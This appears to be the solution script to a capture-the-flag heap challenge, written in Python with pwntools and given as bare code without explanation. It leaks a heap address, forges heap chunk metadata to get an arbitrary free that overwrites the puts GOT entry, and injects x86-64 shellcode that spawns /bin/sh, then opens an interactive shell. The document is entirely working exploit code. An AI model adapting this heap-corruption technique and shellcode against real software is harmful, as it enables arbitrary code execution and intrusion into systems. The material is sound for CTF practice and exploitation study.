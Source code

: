 ```python

# Leak top chunk
leave(8, 'A'*4)
change(0, 60, 'A'*40)
view(0)
r.recvuntil('A'*40)
x = r.recvline()[:-1]
heap = u64(x + '\x00'*(8-len(x))) - 0x18
log.info('heap : {}'.format(hex(heap)))

# Repair the heap struct
payload = 'A'*8 + p64(0)*2 + p64(0x3d0) + p64(0) + p64(heap+0x18)
change(0, 60, payload)

# Make another chunk and use overflow to make arbitratary free
sc = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
leave(8, 'B'*4)
payload = 'A'*8
payload += p64(0)*2 + p64(0x31) + p64(heap+0xa8) + p64(puts_got-8)
payload += 'B'*8 + p64(0)*2 + p64(0x3a0) + p64(0) + p64(heap+0x48)
payload += p64(0)*3 + '\xeb\x16' +'\x00'*6 + p64(0)*2 + sc
change(0, len(payload)+4, payload)
remove(1)

r.interactive()
```
